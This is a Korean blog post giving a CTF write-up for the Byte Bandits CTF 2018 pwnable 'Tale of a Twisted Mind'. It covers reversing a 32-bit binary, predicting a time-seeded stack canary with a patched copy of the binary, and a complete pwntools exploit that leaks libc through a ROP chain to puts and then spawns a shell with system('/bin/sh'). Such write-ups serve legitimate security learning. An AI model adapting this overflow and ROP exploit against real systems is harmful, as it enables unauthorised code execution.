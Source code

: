 ```yaml
---
layout: post
title: [Byte Bandits CTF] Tale of a Twisted Mind Writeup
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - ByteBanditsCTF2018
  - MyriaBreak
---
```


Pwn문제를 뭘 풀까 찾다가 2달전에 했던 `Byte Bandits CTF 2018`에서 봤던 문제를 풀어보기로 했다.
`Tale of a Twisted Mind`라는 문제로 CTF 당시에는 Pwnable에 익숙하지 않은지라 풀지 못했으나 지금은 어느정도 개념이 잡혔고, 문제점수 또한 250점으로 난이도가 적당할 거 같아서 풀어보기로 하였다.

<!--more-->

```
We all know how intelligent Layat is... He says that since everyone knows how gcc programs are protected, he set out to protect them by his own secret way.

But Alas! Even the compiler asked "Art Though Dumb?"

nc 34.218.199.37 6000
```

문제는 위와 같고, 바이너리 파일과 라이브러리를 주므로 이걸 분석하면 된다.
당연하지만 현재 서버는 닫혔고, 라이브러리를 주긴했으나 그냥 로컬기준으로 해서 문제를 풀겠다.(물론 LD_PRELOAD로 설정해줘도 되긴하다.)

먼저 `checksec`을 이용해 어떤 보호기법들이 적용되어있는지 살펴보겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_01.PNG)  

`32bit`이고 `Canary`와 `NX`가 걸려있어 매우 어려울 것 같은 느낌이다.
아직 뭘 해야할지 잘 모르겠으니, 먼저 실행해보자.
실행하면 아래와 같이 모듈러연산을 하는 식을 던져주는데, 이게 풀어도 풀어도 계속 문제를 준다 ㅡㅡ;

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_02.PNG)  

일단 프로그램의 시작부분이 어떻게 시작하는 지 알았으니 이제 IDA를 사용해 저 부분을 한번 살펴보자.
저 문구 자체는 `String Window`에서 쉽게 찾을 수 있고, 거기서 거슬러 올라가면 이 프로그램의 흐름을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_03.PNG)  

여기서 사용되고 있고, 사용하고 있는 함수를 찾아보면 `sub_8048867()`에서 찾을 수 있고, 여기서 더 올라가보면 이 함수가 312번 호출되는 것을 알 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_04.PNG)
![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_05.PNG)

그렇다면 저 함수를 312번 호출이 끝나면 무엇이 수행되는지 보자.
아래 그림을 통해 이 프로그램이 대략적으로 어떻게 돌아가는지 표현해보았다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_06.PNG)  

사용자에게 312번의 수식계산(Question)을 시키고, 이를 통과하게 되면 사용자가 원하는 값을 fgets를 통해 `buffer`에 쓸 수 있다.
그런데 여기서 buf에 해당하는 `s`는 `bp-14`의 위치에 있는데, fgets를 통해 `46`의 길이를 읽게되므로 `Buffer Overflow`가 일어나는 것을 알 수 있다.

```
  int v2; // eax@1
  int v3; // eax@2
  int result; // eax@3
  int v5; // eax@6
  int v6; // edx@9
  signed int i; // [sp+4h] [bp-18h]@1
  char s; // [sp+8h] [bp-14h]@8
  int v9; // [sp+18h] [bp-4h]@1
```

그럼 이제 bof를 이용해 함수 흐름을 조작해서 libc_base를 leak하고, 최종적으로는 ROP로 system("/bin/sh")를 수행할 수 있을 것이다!
... 인줄 알았지만 아직 `Canary`가 남아있었다 ...

다시 위에서 정리해놓은 것을 보면 `Canary`는 `sub_8048801()`에 의해 27~29줄에서 다시 설정된다.
그런데 이 `sub_8048801()`이란 함수가 이전에도 많이 쓰이는데... 바로 처음에 사용자에게 던져주는 수식의 난수생성에 쓰인다.

여러번 실행해보면 알겠지만 주어지는 수식의 값이 항상 다르다는 것을 알 수 있는데, IDA를 통해 hexray한 코드를 보면
이 random한 값은 `time(0)`에 의한 결과이다. time(0)의 값이 이 프로그램에서는 C함수에서 srand(seed)의 seed값으로 들어가는 것과 같은 효과가 여기서 나타난다.
그러므로 time(0)이 같다면 항상 같은 난수 생성이 가능하다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_07.PNG)  

time(0)의 값을 설정하고 랜덤한 값을 `312*2`번 뽑고, 한번 더 뽑게되면 우리가 원하는 `Canary`값을 얻을 수 있다.
그럼 이제 어떻게 할까?
Canary값을 구하기 위한 두가지 방법이 있다.

1. 해당 프로그램에서 Random값을 뽑아내는 알고리즘과 같은 알고리즘을 쓰는 소스를 구현한다.
2. 바이너리 code patch를 통해 우리가 원하는 Canary값을 출력하게 한다.

여기서는 후자, code patch를 이용해서 Canary값을 출력하는 방법을 사용하겠다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_08.PNG)  

위에서 Canary값을 설정하는 코드를 보면 Canary값을 설정한 후, bss영역(전역변수)의 dword_804AA28에 저장하게되는데
이 부분을 puts을 통해 출력하게 patch한다면 우리가 원하는 Canary값이 puts를 통해 출력될 것이다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_09.PNG)

자! 이제 원본파일인 `twisted`와 Canary를 출력하게 patch한 `twisted_modipy`를 동시에 실행한다면
time(0)의 값을 같으므로 같은 난수생성을 하게 되고, 같은 Canary값을 가질 것이다. 
이 때 우리는 `twisted_modipy`를 통해 Canary값을 얻을 수 있으므로, `twisted`에서 bof를 성공적으로 일으킬수 있다.

그럼 이제 코드짜는 일만 남았다..
계획은 일단 아래와 같다.

1. 먼저 puts.plt로 리턴하여 puts.got를 인자로 넣어 `puts_addr`을 구한다.
2. 위에서 구한 puts_addr을 이용해서 `libc_base`를 구한다.
3. `libc_base`를 통해 system함수와 "/bin/sh"의 주소를 구한다.
4. `system("/bin/sh")`를 실행한다.

급마무리하는 느낌이 있지만, 익스코드는 아래와 같다.

```
from pwn import *
import string

#context.log_level = 'debug'

elf = ELF("./twisted")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

conn = process("./twisted", env={"LD_PRELOAD":"libc.so.6"})
patched = process("./twisted_modify", env={"LD_PRELOAD":"libc.so.6"})

for i in range(0,312):
	Equation = conn.recvuntil("=")
	patched_Equation = patched.recvuntil("=")
	patched.recvline()
	conn.recvline()
	if not (Equation == patched_Equation):
		break
	op1, op2 = Equation[:-1].split("%")
	result = int(op1) % int(op2)
	conn.sendline(str(result))
	patched.sendline(str(result))

patched.recvline()
canary = patched.recv(4)
patched.close()
print("")

log.info("canary : 0x%x\n" % u32(canary))

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

fgets_sbuf = 0x8048979
bss = 0x804A800

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(puts_plt)
payload += p32(fgets_sbuf)
payload += p32(puts_got)

conn.recvuntil(":")
conn.send("a")	## getchar != '\n'
conn.sendline(payload)

conn.recvline()
puts_addr = conn.recv(4)
puts_sym = libc.symbols['puts']

libc_base = u32(puts_addr)-puts_sym
system_offset = 0x40310
bin_sh_offset = 0x162d4c
system_addr = libc_base + system_offset
bin_sh_addr = libc_base + bin_sh_offset

log.info("base_libc   : 0x%x" % libc_base)
log.info("puts_addr   : 0x%x" % u32(puts_addr))
log.info("system_addr : 0x%x" % system_addr)
log.info("bin_sh_addr : 0x%x" % bin_sh_addr)

payload  = "A"*16
payload += canary
payload += p32(bss)	# ebp
payload += p32(system_addr)
payload += "BBBB"
payload += p32(bin_sh_addr)

conn.sendline(payload)
conn.interactive()

```

위 파이썬 익스코드를 실행하면 Shell을 획득할 수 있다.

![]({{ site.baseurl }}/images/myria/twisted-writeup/twisted_10.PNG)  

### *후기

재미있는 문제였다. 일단 seed값을 똑같이 설정해서 같은 랜덤값을 얻는 문제를 실제로 풀어본 것이 처음이였다.

뭐... 그 만큼 삽질을 많이해서 굉장히 시간을 많이 잡아먹었지만 ㅡㅡ;

일단 `while(getchar() == 10) ;` 부분이 당연히 버퍼를 비워주기 위한 코드인줄 알아서 익스할때 익스가 제대로 되지않아서 많은 시간을 잡아먹었고,

최근에 execve() 함수 안에 "/bin/sh"를 호출해주는 부분으로 바로 뛰어 쉘을 한방에 띄울 수 있다는 `oneshot gadget`이란 것을 알게 되어 이 원샷가젯을 사용하려다가 굉장히 많은 시간을 잡아먹었다.
일단 원샷가젯에 대한 결론을 말하자면... 32bit 바이너리라서 원샷가젯이 안먹힌다;; 64bit에서는 정상적으로 사용가능하므로 64bit 익스에만 사용하도록 하자.

그래도 삽질한 만큼 많은 걸 배운것 같다. 이상 마무리~
